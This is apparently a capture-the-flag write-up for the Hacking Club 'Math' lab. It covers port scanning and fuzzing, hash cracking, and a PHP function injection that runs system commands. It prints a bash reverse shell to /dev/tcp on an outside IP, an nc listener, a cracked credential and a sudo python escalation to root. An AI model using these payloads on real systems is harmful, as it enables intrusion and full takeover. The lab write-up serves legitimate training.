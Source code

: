```yaml
---
title: 'Math Writeup'
date: '2025-01-07'
tags: ['Function Injection', 'RCE', 'Linux', 'Hacking Club']
draft: false
summary: 'Application has exposed credentials vulnerability, Function Injection leading to RCE, improper use of eval() in Python, and privilege escalation via verify.py script.'
images: ['/static/images/math-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/math-writeup-images/default.png)

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open -T 5`

![math](/static/images/math-writeup-images/image.png)

Only ports 22 (SSH) and 80 (HTTP) are open.

---

## Enumeration

`http://172.16.1.79`

![math 1](/static/images/math-writeup-images/image1.png)

I tested SQL Injection and default credentials on this login page, but without success.

### Fuzzing

```
ffuf -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -u http://172.16.1.79/FUZZ -e .php .txt .log .zip .py -ic
```

![math 2](/static/images/math-writeup-images/image2.png)

File `backup.zip` was found.

![math 3](/static/images/math-writeup-images/image3.png)

After downloading it, we can see it contains the source code of the application.

Hardcoded hash found inside the source code.

![math 4](/static/images/math-writeup-images/image4.png)

I used John the Ripper to crack the hash.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![math 5](/static/images/math-writeup-images/image5.png)

Credencial `f4:1q2we`

With that, we can log into the application.

The application is a website under development meant to help students solve math operations.

![math 6](/static/images/math-writeup-images/image6.png)

### Code Review

![math 7](/static/images/math-writeup-images/image7.png)

If the `page` parameter is set and the value is `math`, we are redirected to `/math.php`.

Analyzing the `math.php` file, we can see we have control over the math operations that the application performs.

![math 8](/static/images/math-writeup-images/image8.png)

### Function Injection

Knowing we control the parameters and the application lacks sanitization, we can exploit the function like this:

`/math.php?operation=system&firstNum=id&secondNum=1`

![math 9](/static/images/math-writeup-images/image9.png)

---

## Foot Hold

`/math.php?operation=system&firstNum=bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'&secondNum=1`

Note: Don’t forget to encode the payload.

![math 10](/static/images/math-writeup-images/image10.png)

`nc -lnvp 1337`

![math 11](/static/images/math-writeup-images/image11.png)

![math 12](/static/images/math-writeup-images/image12.png)

---

## Privillege Escalation

Inside the `/home/f4` directory, we can see a note revealing his password.

![math 13](/static/images/math-writeup-images/image13.png)

![math 14](/static/images/math-writeup-images/image14.png)

`sudo -l`

![math 15](/static/images/math-writeup-images/image15.png)

We can see the user is allowed to run the `verify.py` script as root without a password.

`cat verify.py`

![math 16](/static/images/math-writeup-images/image16.png)

Basically, the script reads a file and checks if it exists.

Knowing this, we’ll make it read the `/bin/bash` file, which will grant us root privileges on the machine.

```python
__import__('os').system('/bin/bash')
```

![math 17](/static/images/math-writeup-images/image17.png)

---

## Proof

![math 18](/static/images/math-writeup-images/image18.png)
